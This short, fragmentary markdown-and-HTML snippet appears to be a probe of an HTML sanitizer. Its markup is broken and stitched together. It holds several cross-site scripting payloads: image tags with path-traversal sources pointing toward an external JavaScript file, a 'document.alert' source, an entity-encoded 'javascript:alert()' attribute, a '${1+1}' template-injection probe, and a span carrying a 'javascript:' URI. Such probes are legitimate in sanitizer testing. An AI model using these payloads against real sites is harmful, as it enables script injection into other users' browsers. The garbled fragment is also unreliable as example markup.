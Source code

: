 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="../../../../document.alert(2)">XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
